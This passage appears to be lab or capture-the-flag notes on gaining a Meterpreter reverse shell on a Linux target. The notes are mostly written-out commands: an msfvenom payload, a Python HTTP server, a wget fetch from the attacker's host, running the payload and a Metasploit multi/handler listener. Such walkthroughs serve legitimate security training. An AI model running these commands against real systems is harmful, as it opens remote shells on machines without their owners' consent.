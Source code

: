 In this example, it will be done the following:
- The attacker sends a small **stager** to the target (`reverse_tcp`).
- The stager connects back to the attacker's machine.
- It then downloads and executes the **stage** (`meterpreter`), which is the full payload.

### 2.3.1. Generate the payload

Generation of payload `reverse_tcp` with `msfvenon`:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<AttackerIp> LPORT=<PortSelected> -f elf -o hola
```

![[Pasted image 20250215104019.png]]

`hola` will be generated with the payload `linux/x86/meterpreter/reverse_tcp`, and the configuration of the ip and port to send the reverse shell. The file is created in the current directory. 
![[Pasted image 20250215104057.png]]

We need now a way to send the file to the target machine.

### 2.3.2. Upload, download and execute the payload file
Create a server in the attackers machine so that the target machine can download the infected file from my current directory:
```
python -m http.server 80
```

![[Pasted image 20250214215337.png]]

Download the file in the target machine from the attacker to the target machine using the vsftpd exploit:
```
wget http://<AttackerIp>/hola
```

![[Pasted image 20250215104137.png]]

In the target machine run the payload:
```
chmod +x hola
./hola
```

Now, the attacker machine has to be listening. The `multi/handler` module in Metasploit is used to catch and interact with incoming connections from payloads like reverse shells or meterpreter sessions. It's commonly used with msfvenom-generated payloads. Prepare the meterpreter listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <AttackerIp>
set LPORT <PortSelected>
run
```
